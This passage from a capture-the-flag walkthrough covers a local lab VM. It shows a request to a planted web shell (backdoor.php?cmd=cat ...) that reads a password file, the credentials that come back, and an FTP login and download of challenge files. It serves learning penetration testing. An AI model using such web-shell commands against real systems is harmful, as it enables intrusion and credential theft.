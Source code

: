 ```
password

https://192.168.94.8/forum/templates_c/backdoor.php?cmd=cat%20/home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
```

*Additionally, you could also start a reverse shell here, but I didn't bother with it.*

Finally, we have new credentials! They don't work for ssh, but they do for ftp.

# Ftp
Alright, let's log in to FTP with the new credentials.
```
➜  ~ ftp lmezard@192.168.94.8
Connected to 192.168.94.8.
220 Welcome on this server
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Perfect, let's see what's in there.
```
ftp> ls
229 Entering Extended Passive Mode (|||50074|).
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
```

Let's use `get` to download the files
```
ftp> get README
[...]
226 Transfer complete.
96 bytes received in 00:00 (76.15 KiB/s)
ftp> get fun
[...]
226 Transfer complete.
808960 bytes received in 00:00 (36.50 MiB/s)
```

Let's see the content of the files; first `README`:
```
➜  ~ cat README
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

Pretty straightforward. Let's see what's in `fun`:
```
➜  ~ cat fun
[...]
// Not showing anything cause it's too long but it's clearly not readable
```
